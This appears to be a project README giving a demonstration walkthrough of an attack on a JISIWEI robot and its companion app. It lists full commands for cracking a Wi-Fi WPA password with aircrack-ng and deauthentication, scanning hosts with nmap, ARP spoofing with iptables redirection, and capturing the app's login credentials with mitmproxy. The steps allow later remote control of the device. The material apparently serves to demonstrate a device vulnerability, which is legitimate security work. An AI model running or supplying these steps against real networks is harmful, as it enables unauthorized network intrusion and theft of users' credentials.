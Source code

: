 # HOW TO DEMO

## Setup
A computer with these tools have to be fixed:
- **Android Emulator** or **Smartphone**, with the JISIWEI application installed
- **aircrack-ng**, used for getting in to the network.
- **mitmproxy**, runned in transparent mode. Used for seeing the HTTP requests.
- **arpspoof**, for spoofing the network to get the packets.
- **nmap**, used for finding devices in the network.



## Step 1
Use Aircrack-ng with the wireless network adapter to crack the password to the router.

But first we have to set the wireless adapter to monitor mode:
```
ifconfig wlan0 down
iwconfig wlan0 mode monitor
ifconfig wlan0 up
```
If you would get the error message **SIOCSIFFLAGS: Operation not possible due to RF-kill**, do the following:
```
rfkill unblock all
```

We can then check what networks are available in the area:

```
airodump-ng wlan0
```

Take the BSSID and channel from the WIFI we will hack and do the following:
```
airodump-ng -c [channel for wifi] --bssid [BSSID for wifi] -w psk wlan0
```
We will now wait on a WPA handshake, we could make this process faster by taking a BSSID of a host that is connected to the wifi.
Easiest way to accomplish this is by having your smartphone connected to the wifi.

```
aireplay-ng -0 0 -a [BSSID of wifi] -c [BSSID of host] wlan0
```

When we have the handshake you can terminate the previous programs. 

Now use aircrack-ng with a password list and get the password.

```
aircrack-ng -w rockyou.txt -b [BSSID of wifi] psk*.cap
```

Now you can set the mode for the wireless adapter to Auto and then login to the wifi.

```
ifconfig wlan0 down
iwconfig wlan0 mode Auto
ifconfig wlan0 up
```

## Step 2
Login to the wifi.

Use Nmap to see the devices in the network.
```
nmap -sn 192.168.1.127/24
```
Check ports on all the devices found in the network.

Show the Jisiwei device.


## Step 3
First we will setup portforwarding before using arpspoof and mitmproxy:

```
sysctl -w net.ipv4.ip_forward=1
iptables -t nat -A PREROUTING -i wlan0 -p tcp --dport 80 -j REDIRECT --to-port 8080
iptables -t nat -A PREROUTING -i wlan0 -p tcp --dport 443 -j REDIRECT --to-port 8080
```

Then open make sure to have three terminals opened and each command in separate terminals:

```
arpspoof -i wlan0 -t [PHONE_IP] [ROUTER_IP]
arpspoof -i wlan0 -t [ROUTER_IP] [PHONE_IP] 
```

Start mitmproxy in transparent mode in the third terminal and wait till someone logs in to the robot on the same network.

```
mitmproxy --mode transparent --showhost
```

Use the emulator or smartphone and log in to the JISIWEI application while on the same network.

```
/root/Android/Sdk/emulator/emulator -avd Attacker 
```

Get the credentials from the login HTTP request in mitmproxy.

## Step 4

Login to the application using the smartphone or emulator showing that it is the same credentials and use the functions of the application.
The attacker could then login whenever they pleases without being in the network.